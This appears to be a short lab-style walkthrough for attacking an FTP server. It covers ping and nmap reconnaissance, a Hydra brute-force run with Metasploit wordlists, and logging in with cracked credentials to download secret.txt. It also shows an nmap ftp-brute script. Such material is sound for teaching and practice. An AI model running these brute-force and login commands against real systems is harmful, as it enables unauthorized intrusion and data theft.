 # FTP (File Transfer Protocol)

# Network and Security Assessment: A Step-by-Step Guide

This guide provides various commands to FTP.

### 1. Ping Command

Checks if the target system is reachable:
`ping [target IP]`

### 2. Nmap Command

Performs a network scan to identify open ports and services:
`nmap [target IP]`

### 3. Detailed Nmap Scan

Scans the FTP port (port 21) and identifies the software and operating system:
`nmap [target IP] -p 21 -sV -O`
_Port 21 = default FTP port. Port runs ProFTP 1.3.5a, OS = Linux 2.6.32_

### 4. FTP Client

Connects to the FTP server of the target system:
`ftp [target IP]`

### 5. Hydra Command

Performs a brute-force attack to crack username and password:
`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target IP] ftp`
_Tries usernames and common passwords._

### 6. FTP Login and File Download

Logs in with the found credentials and downloads a file:
`ftp [target IP], sysadmin, 654321`
After login:
`ls`
`get secret.txt`

### 7. List Directory Contents

Displays the contents of the current directory:
`ls`

### 8. Display File Contents

Displays the contents of the downloaded file:
`cat secret.txt`

### 9. Nmap Brute-Force Script

Creates a file with the username and performs a brute-force attack with nmap:
`echo "sysadmin" > users`
`cat users`
`nmap [target IP] --script ftp-brute --script-args userdb=/root/users -p 21`

These commands help to check the target system for vulnerabilities and ensure it is protected against unauthorized access.


